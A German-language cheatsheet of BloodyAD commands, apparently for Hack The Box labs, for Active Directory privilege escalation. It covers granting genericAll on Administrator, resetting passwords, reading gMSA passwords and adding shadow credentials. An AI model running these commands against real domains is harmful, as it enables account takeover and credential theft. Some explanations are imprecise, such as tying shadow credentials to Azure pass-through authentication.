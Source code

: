
## 🩸 BloodyAD Cheatsheet

<br>

🧩 **Retrieve Domain Information**

Zeigt grundlegende Informationen zur Active Directory-Domäne wie Domain-Controller, Domänenfunktionsebene und andere Metadaten an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get domain
```

<br>

🧩 **Retrieve User Information**

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object administrator
```

<br>

🧩 **Get groupMembers**

Listet alle Mitglieder der angegebenen AD-Gruppe (z. B. DEVELOPERS) auf und zeigt deren Benutzernamen und Details.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get groupMembers DEVELOPERS
```

<br>

🧩 **Add User To Group**

Zeigt alle Active Directory-Objekte an, auf die der Nutzer a.james Schreibrechte hat. Mit --detail werden zusätzlich ausführliche Informationen zu den Berechtigungen ausgegeben.
Fügt den Benutzer a.james zur Gruppe DEVELOPERS im Active Directory hinzu. Dadurch erhält der Nutzer die Rechte und Mitgliedschaften der Zielgruppe.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get writable --detail
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add groupMember DEVELOPERS a.james
```

<br>

🧩 **Add New User**

Legt einen neuen Benutzer im Active Directory an, um ihn in der Domäne zu registrieren.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add user <Benutzername>
```

<br>

🧩 **Get Computers**

Listet alle Computerobjekte innerhalb der Active Directory-Domäne auf.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get computers
```
<br>

🧩 **Change Password**

Setzt das Passwort des angegebenen Active Directory-Benutzers ($target_username) auf ein neues Passwort ($new_password). Damit kann der Nutzer das Passwort eines anderen AD-Accounts ändern.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set password $target_username $new_password
```

<br>

🧩 **Give User GenericAll Rights**

Gewährt dem Benutzer a.james volle Zugriffsrechte („genericAll“) auf das AD-Objekt „Administrator“. Dadurch kann a.james alle Eigenschaften und Berechtigungen des Administrator-Kontos ändern.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass a.james volle Rechte bekommt.“
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add genericAll "CN=Administrator,CN=Users,DC=puppy,DC=htb" a.james
```

<br>

🧩 **Write Owner**

Setzt den Besitzer des Active Directory-Objekts „DEVELOPERS“ auf den Benutzer a.james. Dadurch erhält a.james volle Kontrolle über dieses Objekt.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set owner "CN=DEVELOPERS,DC=puppy,DC=htb" a.james
```

<br>

🧩 **Enable a Disabled Account**

Entfernt das ACCOUNTDISABLE-Flag im User-Account-Control (UAC) des Benutzers j.calvus, wodurch das Konto wieder aktiviert wird.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' remove uac "CN=j.calvus,OU=Users,DC=puppy,DC=htb" -f ACCOUNTDISABLE
```

<br>

🧩 **Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag**

Fügt dem Benutzerkonto service-account das UAC-Flag TRUSTED_TO_AUTH_FOR_DELEGATION hinzu. Dadurch wird das Konto für die vertrauenswürdige Delegierung autorisiert.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add uac "CN=service-account,OU=Services,DC=puppy,DC=htb" -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

<br>

🧩 **ReadGMSAPassword**

Fragt das Active Directory-Objekt gmsa-web (Managed Service Account) ab und zeigt das Attribut msDS-ManagedPassword mit dem aktuellen verwalteten Passwort an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=gmsa-web,CN=Managed Service Accounts,DC=puppy,DC=htb" --attr msDS-ManagedPassword
```
<br>

🧩 **Modify UPN**
Fragt beim Active Directory-Benutzer joerg das Attribut userPrincipalName ab und zeigt dessen Wert an.
Ändert im Active Directory beim Benutzer joerg das Attribut userPrincipalName auf „joerg2@b2syn.htb“. Damit wird der Anmeldename des Nutzers angepasst.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=joerg,OU=Users,DC=puppy,DC=htb" --attr userPrincipalName
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' set object "CN=joerg,OU=Users,DC=puppy,DC=htb" userPrincipalName -v "joerg2@b2syn.htb"
```

<br>

🧩 **Shadow Credentials**

Fügt dem AD-Benutzer joerg sogenannte Shadow Credentials hinzu, die alternative Anmeldedaten (z. B. für Azure AD Pass-Through Authentication) ermöglichen.
```zsh
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' add shadowCredentials "CN=joerg,OU=Users,DC=puppy,DC=htb"
```


